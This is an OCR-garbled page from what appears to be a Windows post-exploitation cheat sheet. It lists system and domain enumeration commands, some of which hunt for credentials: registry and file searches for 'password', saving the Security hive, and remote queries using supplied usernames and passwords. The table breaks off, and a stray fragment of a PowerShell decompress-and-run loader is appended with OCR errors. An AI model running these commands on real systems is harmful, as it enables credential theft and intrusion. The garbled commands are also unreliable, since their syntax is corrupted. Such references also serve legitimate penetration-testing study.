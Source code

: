 ### WINDOWS NT 4. 0, 3. 51, 3. 50

```text
%SystemDrive%\WINNT\Profiles\All Users\Start Menu\Programs\Startup
```

## WINDOWS system info commands



| **Command** | **Description** |
| :--- | :--- |
| ver | Get OS version |
| sc query state=all | Show services |
| tasklist /svc | Show processes & services |
| tasklist /m | Show all processes & DLLs |
| tasklist /S ip /v | Remote process listing |
| taskkill /PID pid /F | Force process to terminate |
| systeminfo /S ip /U domain\user /P Pwd | Remote system info |
| reg query \\ ip \ RegDomain \  Key /v VALUE | Query remote registry, /s=all values |
| reg query HKLM /f password /t REG\_SZ /s | Search registry for password |
| fsutil fsinfo drives | List drives •must be admin |
| dir /a /s /b c:\'.pdf' | Search for all PDFs |
| dir /a /b c:\windows\kb' | Search for patches |
| findstr /si password' .txt I •.xmll •.xls | Search files for password |
| tree /F /A c: tree.txt | Directory listing of C: |
| reg save HKLM\Security security.hive | Save security hive to file |
| echo %USERNAME% | Current user |

## WINDOWS net/domain commands



<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">net view /domain</td>
      <td style="text-align:left">Hosts in current domain</td>
    </tr>
    <tr>
      <td style="text-align:left">net view /domain: [MYDOMAIN]</td>
      <td style="text-align:left">Hosts in [MYDOMAIN]</td>
    </tr>
    <tr>
      <td style="text-align:left">net user /domain</td>
      <td style="text-align:left">All users in current domain</td>

[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"